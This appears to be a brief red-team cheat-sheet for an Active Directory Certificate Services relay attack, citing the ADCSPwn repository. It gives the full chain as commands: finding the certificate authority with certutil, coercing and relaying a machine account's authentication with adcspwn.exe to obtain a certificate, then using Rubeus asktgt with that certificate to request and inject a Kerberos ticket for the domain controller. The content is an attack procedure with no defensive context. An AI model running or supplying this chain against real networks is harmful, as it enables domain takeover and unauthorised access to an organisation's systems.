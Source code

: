 ### source
https://github.com/bats3c/ADCSPwn  

### find certificate autthority
```
certutil.exe
```

### coerce authentication from machine account and relay to certificate service, write certificate to file
```
adcspwn.exe --adcs <certificateAuthority> --remote <domainController> --output <base64Certificate>
```

### request kerberos TGT
```
Rubeus.exe asktgt /outfile:<file> /user:<domainController> /ptt /certificate:<base64Certificate>
```

